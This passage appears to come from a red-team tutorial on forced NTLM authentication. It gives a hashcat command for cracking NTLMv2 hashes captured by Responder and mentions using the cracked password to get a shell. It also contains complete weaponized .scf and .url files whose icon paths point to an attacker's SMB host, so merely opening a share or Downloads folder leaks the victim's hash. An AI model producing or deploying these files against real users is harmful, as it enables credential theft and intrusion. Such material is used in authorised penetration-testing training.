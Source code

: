 ```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](<../../.gitbook/assets/forced-auth-shell (1).png>)

## Execution via .SCF

Place the below `fa.scf` file on the attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code title="\\10.0.0.7\tools\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

{% file src="../../.gitbook/assets/@fa.scf" %}
fa.scf
{% endfile %}

A victim user `low` opens the share `\\10.0.0.7\tools` and the `fa.scf` gets executed automatically, which in turn forces the victim system to attempt to authenticate to the attacking system at 10.0.0.5 where responder is listening:

![victim opens \\\10.0.0.7\tools, fa.scf executes and gives away low's hashes](../../.gitbook/assets/forced-auth-shares.png)

![user's low hashes were received by the attacker](../../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded through the browser and as soon as the user navigates to the `Downloads` folder, users's hash is stolen:

![](../../.gitbook/assets/forced-auth-downloads.png)

## Execution via .URL

Create a weaponized .url file and upload it to the victim system:

{% code title="c:\link.url@victim" %}
```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.0.0.5\%USERNAME%.icon
IconIndex=1
```
{% endcode %}

